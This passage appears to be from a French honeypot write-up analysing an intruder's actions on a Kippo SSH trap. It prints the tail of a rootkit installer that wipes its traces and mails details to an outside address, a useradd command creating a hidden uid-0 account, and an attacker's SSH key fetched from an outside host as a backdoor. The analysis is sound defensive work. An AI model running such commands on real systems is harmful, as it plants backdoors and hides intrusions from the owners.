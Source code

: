 ```bash
  /usr/sbin/syslogd -m 0
else
  /sbin/syslogd -m 0
fi

if [ -f /usr/sbin/inetd ]; then
  killall -HUP inetd >/dev/null 2>&1
elif [ -f /usr/sbin/xinetd ]; then
  killall -HUP xinetd
fi

cd $BASEDIR
rm -rf ../.rc
sendmail root -p norocos@canadianbiotech.com

cd ..
rm -rf .rc rk.jpg
# EOF
```

Après avoir installé le rootkit, notre intrus affiche le contenu de `/etc/passwd` puis tente d'ajouter un utilisateur avec l'uid 0 avec la commande suivante :

```bash
/usr/sbin/useradd -u 0 -g 0 -o -d "/home/admin" admin 2>&1
```

Seulement `Kippo` est assez limité dans ses fonctionnalités et cette commande n'est pas effective. Le pirate tentera de la lancer une nouvelle fois puis abandonnera.

Il va alors télécharger la clé SSH à l'adresse http://unixcrew.t35.com/authorized_keys et la placer dans `/root/.ssh`.  

Le contenu est le suivant :

```plain
ssh-rsa
AAAAB3NzaC1yc2EAAAABJQAAAIBCkXfcxijdvoA3Ee0Ea0yhphOLuvm0+KtEWowekUuokh
2w4H72AKniI37DIuPDtgCHbqNAsUsU33SlZE2wrEo4LQaS3KL1z6egwnuT2PIFP5XV5DUb
7Hck9gloyyUBVr0TVxRwPunuLINEUTi/2LAca1IdOeGfN+g7qlDScHLrXw== TheDemon
```

Pour terminer il télécharge le fichier http://unixcrew.t35.com/poza1.jpg qui est en réalité une archive et la décompresse.  

Cela provoque la génération d'un dossier nommé webmail dans lequel il se place et tape la commande `make` alors qu'aucun `Makefile` n'est présent dans le dossier.  

Dans ce dossier on trouve un bot IRC `EnergyMech` classique configuré pour le pseudo `TheDemon` sur `UnderNet`.  

Il se déconnectera et ne se reconnectera pas...  

Conclusion
----------
